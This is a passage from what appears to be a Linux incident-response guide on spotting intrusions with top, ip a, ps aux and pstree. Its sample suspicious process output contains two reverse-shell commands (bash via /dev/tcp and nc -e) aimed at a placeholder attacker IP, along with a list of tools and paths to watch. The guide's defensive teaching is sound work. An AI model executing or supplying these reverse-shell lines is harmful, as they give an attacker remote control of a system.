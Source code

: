 ```bash
top   # or htop
```
**What to look for:** Processes like python, nc, bash, perl with high CPU usage without justification.

### ip a

Displays network interfaces, IP addresses, and interface status.

```bash
ip a
```
**What to look for:** Unexpected interfaces like tun0, docker0, or IPs that do not belong to your network.

## Step 2: Review Active Processes

An attacker who has gained access to the system will likely run processes to establish control, exfiltrate information, or maintain persistence. Reviewing running processes allows you to detect unusual activity, such as interactive shells, tunnels, remote scripts, or disguised processes. This step is crucial to identify in-memory malware or fileless executions.

**Key questions:**
- Are there processes with strange names or unusual locations?
- Are there processes running as root that shouldn't be?

### ps aux --sort=start_time

Lists all active processes with detailed information: user, CPU usage, memory, start time, command, etc.  
The `--sort=start_time` flag sorts them by start time, so the most recently started processes appear at the end (useful for spotting recent processes).

```bash
ps aux --sort=start_time
```

Suspicious output example:

```bash
root     20312  0.0  0.1  34500  4200 ?        Ss   11:05   0:00 /bin/bash -c bash -i >& /dev/tcp/192.168.1.5/4444 0>&1
nobody   20344  0.0  0.2  19100  5100 ?        S    11:05   0:00 nc -e /bin/bash 192.168.1.5 4444
```

**What to look for:**
- Processes run by `root` that you don't recognize
- Suspicious commands: `nc`, `curl`, `python`, `bash`, `sh`, `perl`
- Processes from odd paths: `/tmp/`, `/dev/shm/`, `/opt/.hidden/`
- Commands that appear truncated or incomplete (could be hiding something)

### pstree -p

Shows a hierarchical tree view of processes. Ideal for seeing **who launched what**, especially if there are child processes started from hidden shells.
